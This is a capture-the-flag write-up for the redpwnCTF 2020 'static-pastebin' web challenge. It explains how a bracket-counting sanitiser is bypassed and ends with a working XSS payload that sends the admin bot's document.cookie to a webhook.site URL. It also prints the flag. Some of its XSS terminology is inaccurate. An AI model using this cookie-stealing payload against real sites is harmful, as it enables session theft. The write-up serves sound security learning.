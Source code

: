 # static-pastebin
**Category:** Web

**Points:** 373

**Description:**
> I wanted to make a website to store bits of text, but I don't have any experience
with web development. However, I realized that I don't need any! If you experience
any issues, make a paste and send it `here` (https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin)
>
> **Site:** `static-pastebin.2020.redpwnc.tf`
>
> **Note:** The site is entirely static. Dirbuster will not be useful in solving it.
>
> **Author:** BrownieInMotion

## Writeup
The first thing I do is check out both websites. The first website after "here"
was a bot URL submission page. The other website is a big text box, so yes, a
pastebin.

<img src="bot_submission.PNG" alt="Bot Submission">
<img src="pastebin.PNG" alt="Static Webpage">

Right away I realized this had to be a reflected XSS (Cross-Site Scripting) attack. There
are two types of XSS attacks: **stored** and **reflected**. A **stored** XSS attack
usually happens when a malicious script from an attacker is injected into a website
which is vulnerable to it. One application of this could be a reverse PHP shell,
allowing the attacker access to the webserver. Now, a **reflected** XSS attack
is when a malicious script is injected into a website, but takes advantage of people
visiting this website. Basically, an attacker is able to change a webpage in a way
to mess with another user/website visitor.

In this case, we have a **reflected** XSS attack because we have a bot page coming
to visit our website and it probably has some important information in it's **cookies**.
Anyways, let's see what happens if we paste something and enter it:

<img src="first_try.PNG" alt="First Attempt">

Looks like the link it generated for us is in base64, but makes it so that we can
really put anything and it will condense down to a website the bot can go to. I
opened up the source code to see what we are working with. They have a public JS
file shown to us:
```
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Aaaaaand some sanitation. Looks like it doesn't want us to put any tags in at all.
The sanitation method is weird though. They use a counter to determine whether any
bracket has been laid down. If two have been laid down, everything in between those
brackets will be sanitized. Unlessss we switch up the order of the tags.

**Payload:** ` ><script>< `

**Output:**
```
<div id="paste">
    &gt;<script><</script>
</div>
```

I tried a few ways to get an **alert** to pop up, but no luck. I figured out that
the only thing that is possible is to make this exploit in **one tag**. But how?


The `<img>` tag has a `src` attribute, which allows us to maybe redirect the
user to a different website. I ended up getting this to return a JS alert:
` ><img src=x onerror=alert(1);>< `.

Sweet! This is definitely a sanity check lol. Now I needed to just steal the bot's
cookie (or my own for testing). This took me about a year to find, but this
website called **Webhook** gives us a url to live on and send request to. I did some
digging and research and found the final exploit. I will have my cookie be:
` XSS = but make it reflected `.

**Exploit:**
```
><img src=x onerror=this.src='https://webhook.site/b3ead4c5-b498-4d5f-9b82-f6fa49d9639f/?'+document.cookie; this.removeAttribute('onerror');><
```

**Webhook:**

<img src="make_it_reflected.PNG" alt="Testing Payload">

Niceeeeee. Now let's give this malicious cookie-stealing link to the admin bot.

**Webhook:**

<img src="bot.PNG" alt="Bot get's pwned">

I thought this challenge was pretty cool to be honest. I learned about XSS attacks
in school, but never had to develop a payload for one. Awesome challenge.

## Flag
flag{54n1t1z4t10n_k1nd4_h4rd}

## Resources
[Webhook](https://webhook.site/)
